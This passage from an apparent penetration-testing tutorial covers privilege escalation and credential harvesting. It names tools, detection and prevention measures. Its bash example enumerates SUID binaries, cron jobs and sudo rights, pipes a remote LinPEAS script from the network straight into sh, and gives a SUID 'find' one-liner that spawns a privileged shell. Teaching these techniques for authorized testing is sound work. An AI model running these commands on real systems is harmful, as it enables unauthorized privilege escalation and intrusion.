 > **Knowledge Check:** What are the most common vulnerabilities found in network services? How do exploitation techniques differ between file sharing services, web services, and database services?

## 6. Post-Exploitation and Pivoting

### 6.1 Privilege Escalation

Elevating privileges after initial access:

1. **Local Privilege Escalation**:
   - Techniques: Kernel exploits, misconfigured permissions
   - Tools: LinPEAS/WinPEAS, linux-exploit-suggester
   - Common vectors: SUID binaries, cron jobs, service misconfigurations
   - Detection: Behavior monitoring, integrity checking
   - Prevention: Patching, principle of least privilege

2. **Network Service Privilege Escalation**:
   - Techniques: Service-specific vulnerabilities, credential reuse
   - Tools: Metasploit, custom exploits
   - Common vectors: Vulnerable services running as privileged users
   - Detection: Service monitoring, privilege auditing
   - Prevention: Service hardening, minimal privileges

3. **Credential Harvesting**:
   - Techniques: Memory dumping, keylogging, token theft
   - Tools: Mimikatz, LaZagne, Responder
   - Common vectors: Cached credentials, clear-text storage
   - Detection: Memory scanning, credential access monitoring
   - Prevention: Credential protection, MFA, privileged access management

```bash
# Example: Linux privilege escalation techniques

# Step 1: Gather system information
uname -a
cat /etc/issue
cat /proc/version

# Step 2: Check for kernel exploits
searchsploit "Linux Kernel $(uname -r)"

# Step 3: Find SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Step 4: Check for writable service files
find /etc/init.d/ -writable -type f 2>/dev/null
find /etc/systemd/system/ -writable -type f 2>/dev/null

# Step 5: Look for cron jobs
ls -la /etc/cron*
cat /etc/crontab

# Step 6: Check for misconfigured sudo permissions
sudo -l

# Step 7: Use automated tools
# Run LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Step 8: Exploit a vulnerable SUID binary (example)
# If find has SUID bit:
find / -exec /bin/sh -p \; -quit
```
